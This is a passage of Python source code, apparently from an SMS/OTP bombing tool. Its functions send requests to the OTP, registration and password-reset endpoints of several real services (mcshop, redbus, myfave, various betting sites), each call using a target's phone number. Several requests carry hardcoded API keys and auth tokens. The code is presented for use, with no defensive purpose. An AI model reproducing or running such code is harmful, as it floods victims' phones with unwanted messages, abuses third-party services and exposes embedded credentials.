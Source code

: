     post("https://api.mcshop.com/cognito/me/forget-password",headers={"x-store-token": "mcshop","user-agent": "Mozilla/5.0 (Linux; Android 10; Redmi 8A) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.85 Mobile Safari/537.36","content-type": "application/json;charset=UTF-8","accept": "application/json, text/plain, */*","x-auth-token": "O2d1ZXN0OzkyMDIzOTU7YThmNWMyZDE4YThlOTMzOGMyOGMwYWE5ODQwNTBjY2I7Ozs7","x-api-key": "ZU2QOTDkCV5JYVkWXdYFL8niGXB8l1mq2H2NQof3"},json={"username": phone})

    

def api9(phone):

    get(f"https://asv-mobileapp-prod.azurewebsites.net/api/Signin/SendOTP?phoneNo={phone}&type=Register")

    

def api10(phone):

    post("https://m.lavagame168.com/api/register-otp",headers={"x-exp-signature": "5ffc0caa4d603200124e4eb1","user-agent": "Mozilla/5.0 (Linux; Android 10; Redmi 8A) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.85 Mobile Safari/537.36","referer": "https://m.lavagame168.com/dashboard/login"},json={"brands_id":"5ffc0caa4d603200124e4eb1","agent_register":"5ffc0d5cdcd4f30012aec3d9","tel": phone})

    

def api11(phone):

    get("https://m.redbus.id/api/getOtp?number="+phone[1:]+"&cc=66&whatsAppOpted=true",headers={"traceparent": "00-7d1f9d70ec75d3fb488d8eb2168f2731-6b243a298da767e5-01","user-agent": "Mozilla/5.0 (Linux; Android 10; Redmi 8A) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.85 Mobile Safari/537.36"}).text

    

def api12(phone):

    post("https://api.myfave.com/api/fave/v3/auth",headers={"client_id": "dd7a668f74f1479aad9a653412248b62"},json={"phone":"66"+phone})

    

def api13(phone):

    post("https://samartbet.com/api/request/otp", data={"phoneNumber":phone,"token":"HFbWhpfhFIGSMVWlhcQ0JNQgAtJ3g3QT43FRpzKhsvGhoHEzo6C1sjaRh1dSxgfEt_URwOHgwabwwWKXgodXd9IBBtZShlPx9rQUNiek5tYDtfB3swTC4KUlVRX0cFWVkNElhjPXVzb3NWBSpvVzofb1ZFLi15c2YrTltsL0FpGSMVGQ9rCRsacxJcemxjajdoch8sfEhoWVlvbVEsQ0tWfhgfOGth"})

    

def api14(phone):

    post("https://www.msport1688.com/auth/send_otp", data={"phone":phone})

    

def api15(phone):

    post("http://b226.com/x/code", data={f"phone":phone})

    

def api16(phone):

    post("https://ep789bet.net/auth/send_otp", data={"phone":phone})
